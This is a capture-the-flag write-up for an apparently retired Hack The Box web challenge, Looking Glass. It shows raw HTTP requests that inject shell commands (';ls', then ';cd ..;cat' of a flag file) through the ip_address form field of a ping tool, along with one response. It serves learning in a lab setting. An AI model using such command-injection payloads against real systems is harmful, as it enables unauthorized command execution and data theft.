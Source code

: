 # Solution for Looking Glass HTB Challenges Web Retired

The title of the page is RCE and exploiting is really simple
We see from the request there are 2 parameters
```text
POST / HTTP/1.1
Host: 142.93.40.197:30748
Content-Length: 54
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://142.93.40.197:30748
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://142.93.40.197:30748/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

test=ping&ip_address=10.10.10.10&submit=Test
```

So there are 2 injectable parameters
We aren't getting anything if we inject something in the test parameter but we can inject stuff into the ip_address parameter and get command injection
Lets test it out

```text
POST / HTTP/1.1
Host: 142.93.40.197:30748
Content-Length: 54
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://142.93.40.197:30748
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://142.93.40.197:30748/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

test=ping&ip_address=;ls&submit=Test
```
Response:
```text
<textarea contentEditable="true" class="form-control mt-2 disabled" style="resize:none;height:300px;" readonly>index.php
</textarea>
```
Now, after playing around, 
The final payload is 
```request
POST / HTTP/1.1
Host: 142.93.40.197:30748
Content-Length: 54
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://142.93.40.197:30748
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://142.93.40.197:30748/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

test=ping&ip_address=;cd ..;cat flag_mHCfT&submit=Test
```